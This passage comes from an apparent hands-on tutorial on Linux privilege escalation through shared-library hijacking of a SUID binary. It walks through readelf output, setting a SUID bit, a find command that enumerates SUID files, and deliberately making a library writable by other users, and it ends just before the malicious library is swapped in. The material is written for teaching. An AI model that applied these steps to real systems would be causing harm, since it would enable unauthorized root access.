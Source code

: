 We can read ELF files with the `readelf` command (`-d` stands for dynamic):

```bash
user@pwn:~/so-files$ readelf -d myexec

Dynamic section at offset 0x2db0 contains 28 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libcustom.so]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 <...SNIP...>
```

Let's create an SUID bit to the binary:

```bash
user@pwn:~/so-files$ sudo cp myexec /usr/bin/myexec
user@pwn:~/so-files$ sudo chmod u+s /usr/bin/myexec 
```

We can use the find command to search for SUID files:

```bash
user@pwn:~/so-files$ find / -type f -perm -u=s 2>/dev/null | xargs ls -l | grep myexec
-rwsr-xr-x 1 root root             16728 Dec 10 12:20 /usr/bin/myexec
```

Additionally, we are gonna create another one but **WITHOUT** an SUID bit set:

```bash
user@pwn:~/so-files$ sudo cp ~/so-files/myexec /usr/bin/myexec2
```

Try to execute the `/usr/bin/myexec` binary:

```bash
user@pwn:~/so-files/evil$ /usr/bin/myexec
Message from myexec.c!
Message from libcustom.c
```

As we can see above, the library gets loaded and executed.

# Privilege Escalation via Write permissions in /usr/lib

Let's navigate to where the malicious library is located:

```bash
user@pwn:~/so-files$ cd ~/so-files/evil
user@pwn:~/so-files/evil$ 
```

Startup by adding write permissions to the folder `/usr/lib`, this is a misconfiguration that should never be done:

```bash
user@pwn:~/so-files/evil$ sudo chmod o+w /usr/lib/libcustom.so
```

Replace the original library file with the malicious library file:
